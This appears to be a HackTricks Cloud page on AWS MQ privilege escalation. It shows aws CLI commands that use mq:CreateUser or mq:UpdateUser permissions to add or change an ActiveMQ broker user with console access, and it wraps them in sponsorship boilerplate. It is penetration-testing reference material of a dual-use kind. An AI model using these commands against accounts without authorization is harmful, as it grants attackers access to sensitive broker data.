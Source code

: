# AWS - MQ Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## MQ

For more information about MQ check:

{% content-ref url="aws-mq-privesc.md" %}
[aws-mq-privesc.md](aws-mq-privesc.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

With those permissions you can **create a new user in an ActimeMQ broker** (this doesn't work in RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potential Impact:** Access sensitive info navigating through ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

With those permissions you can **create a new user in an ActimeMQ broker** (this doesn't work in RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Potential Impact:** Access sensitive info navigating through ActiveMQ

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

